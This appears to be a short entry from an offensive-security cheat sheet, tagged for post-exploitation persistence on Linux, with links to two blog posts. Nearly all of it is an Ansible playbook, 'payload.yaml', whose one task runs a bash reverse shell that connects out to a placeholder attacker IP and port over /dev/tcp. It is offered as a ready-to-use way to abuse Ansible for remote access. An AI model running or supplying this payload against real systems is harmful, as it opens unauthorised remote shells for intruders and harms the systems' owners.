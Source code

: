 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Ansible Playbook

```
$ cat payload.yaml
- hosts: localhost
  tasks:
  - name: payload
	shell: bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

---
## References

### Rio Asmara Suryadi

- [Rio Asmara Suryadi: Ansible Yml file for Reverse Shell](https://rioasmara.com/2023/10/08/ansible-yml-file-for-reverse-shell/)

- [Rio Asmara Suryadi: Ansible Playbook Weaponization](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/)